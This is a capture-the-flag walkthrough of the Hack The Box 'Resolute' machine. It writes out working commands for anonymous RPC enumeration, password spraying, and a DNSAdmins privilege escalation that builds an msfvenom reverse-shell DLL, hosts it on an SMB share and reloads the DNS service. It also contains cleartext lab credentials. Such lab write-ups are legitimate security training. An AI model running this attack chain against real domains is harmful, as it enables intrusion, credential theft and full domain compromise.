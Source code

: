 ```yaml
---
description: https://app.hackthebox.com/machines/220
---
```


# 🐟 Resolute

<figure><img src="../../.gitbook/assets/image (999).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1000).png" alt=""><figcaption></figcaption></figure>

So we can see the domain is megabank.local, so let's add it to /etc/hosts file:

```
10.129.218.158  Resolute.megabank.local Resolute megabank.local
```

We then try enumerating SMB, we get anonymous login but no shares appears to be there

```
smbclient -L //10.129.218.158 
```

<figure><img src="../../.gitbook/assets/image (1001).png" alt=""><figcaption></figcaption></figure>

We could try using null auth or smbmap with:

```
smbmap -H 10.129.218.158
```

but nothing works

same for rpcclient:

```
rpcclient 10.129.218.158
```

But when we try null auth this times it works:

```
rpcclient -U "" -N 10.129.218.158
```

* **U ""**:
  * The `-U` option specifies the username to use for the connection. In this case, `""` (an empty string) means that no username is provided.
  * This can be useful for anonymous connections where the server does not require a username.
* **-N**:
  * The `-N` option tells `rpcclient` to use an anonymous login. This means that no password will be prompted for or provided. It is often used together with `-U ""` for anonymous access.

Then we use the enumdomusers to list some users in the domain:

<figure><img src="../../.gitbook/assets/image (1002).png" alt=""><figcaption></figcaption></figure>

We copy this output to a file and use awk to clean it:

```
cat enumdom.txt | awk -F\[ '{print $2}' | awk -F\] '{print $1}'
```

<figure><img src="../../.gitbook/assets/image (1003).png" alt=""><figcaption></figcaption></figure>

To continue enumeration, we could use cme to list out various info like password policy to look for lockout policy so we can bruteforce aggresivly:

```
cme smb --pass-pol 10.129.218.158 
```

<figure><img src="../../.gitbook/assets/image (1004).png" alt=""><figcaption></figcaption></figure>

While enumerating rpc, we can't forget to use the querydispinfo command that leads us to a clear text password:

<figure><img src="../../.gitbook/assets/image (1005).png" alt=""><figcaption><p>marko:Welcome123!</p></figcaption></figure>

So we exit rpcclient and hop on cme to test out the credentials

```
cme smb 10.129.218.158 -u marko -p 'Welcome123!'
```

But we get a login failure, so let's try spraying with the proper user list output :

```
cme smb 10.129.218.158 -u cleanedusers.txt -p 'Welcome123!'
```

<figure><img src="../../.gitbook/assets/image (1006).png" alt=""><figcaption></figcaption></figure>

and we get a hit for melanie :raised\_hands:

So we go on cme and test out the creds, it works, so we launch evil-winrm to connect via a session:

<figure><img src="../../.gitbook/assets/image (1007).png" alt=""><figcaption></figcaption></figure>

What we also need to do is enumerate SMB as an authd user ->

```
smbmap -d megabank.local -u melanie -p 'Welcome123!' -H 10.129.218.158
```

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Now we enumerate the session, we don't find anything in the home dir so we ho at root and run ls -force

The command `ls -force` as written appears to be a mix of Unix/Linux and PowerShell syntax, and it doesn't directly apply to Unix/Linux systems. Instead, it resembles a PowerShell command. In PowerShell, `ls` is an alias for the `Get-ChildItem` cmdlet, and the `-Force` parameter is used to show hidden and system files.

* **ls**:
  * An alias for the `Get-ChildItem` cmdlet, which lists the contents of a directory.
  * It functions similarly to the `ls` command in Unix/Linux, but it is a part of PowerShell and can be used on Windows systems.
* **-Force**:
  * A parameter for `Get-ChildItem` that forces the command to include hidden and system files in its output.
  * Without `-Force`, `Get-ChildItem` would only list the visible files and directories.

We find the interesting file:

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

We continue our rabbit hole ->

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption><p>PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt</p></figcaption></figure>

We look at the content of the file and we can see the creds for the ryan user:

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption><p>ryan Serv3r4Admin4cc123!</p></figcaption></figure>

So obviously we pivot towards the ryan user using evil winrm ->

and look at the groups using `whoami /groups`

{% embed url="https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#dnsadmins" %}

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
Members of DNSAdmins group have access to network DNS information. The default permissions are as follows: Allow: Read, Write, Create All Child objects, Delete Child objects, Special Permissions.
{% endhint %}

{% embed url="https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2" %}

We follow the documentation, create a malicious dll with msfvenom as follows:&#x20;

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.58 LPORT=4444 -f dll > privesc.dll
```

then we need to transfer the file ->

{% embed url="https://blog.ropnop.com/transferring-files-from-kali-to-windows/" %}

So we will start by creating our smbserver with impacket ->

```
smbserver.py share .
```

`smbserver.py share .` is used to start an SMB (Server Message Block) server using the `smbserver.py` script from the Impacket library. This script allows you to quickly set up an SMB server on a specified share name and directory.

* **share**:
  * This is the name of the share that you are creating. When clients connect to the SMB server, they will use this share name to access the files.
  * For example, if you specify `share`, clients will access it via `\\<server-ip>\share`.
* **.**:
  * This indicates the directory to be shared. The `.` (dot) represents the current directory from which the command is being run.
  * All files and subdirectories within the current directory will be accessible through the SMB share.

Now launch netcat with the port of your msfvenom payload

{% hint style="info" %}
Some googling around for this group led me to the [lolbas page](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/) for `dnscmd` to load a dll over a UNC path. There’s a command to set a server level plugin dll:



dnscmd.exe /config /serverlevelplugindll \\\path\to\dll
{% endhint %}

```
dnscmd.exe /config /serverlevelplugindll \\10.10.14.58\share\privesc.dll
```

* `dnscmd.exe` is a command-line tool used to manage DNS servers.
* The `/config /serverlevelplugindll` option sets the path of a DLL that the DNS server will load as a plugin.
* `\\10.10.14.58\share\privesc.dll` specifies the path to your malicious DLL hosted on the SMB server.
* When this command is executed, the DNS server is configured to load the `privesc.dll` from the SMB share.

```
sc.exe \\resolute stop dns
```

```
sc.exe \\resolute start dns
```

* `sc.exe` is a command-line tool for managing Windows services.
* `sc.exe \\resolute stop dns` stops the DNS service on the target server (named `resolute`).
* `sc.exe \\resolute start dns` starts the DNS service again.
* Restarting the DNS service forces it to load the newly configured server-level plugin DLL (`privesc.dll`).

***

* When the DNS service starts, it loads the `privesc.dll` file from the SMB share.
* If `privesc.dll` contains a reverse shell payload, it will execute with the privileges of the DNS service, which can be high, potentially including domain admin privileges.
* During this process, when `dnscmd.exe` or the DNS service accesses the SMB share to retrieve the `privesc.dll`, the system may send NTLM authentication hashes to the SMB server.
* These hashes can be captured by tools like `Responder` or directly observed in the output of `smbserver.py`.

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>
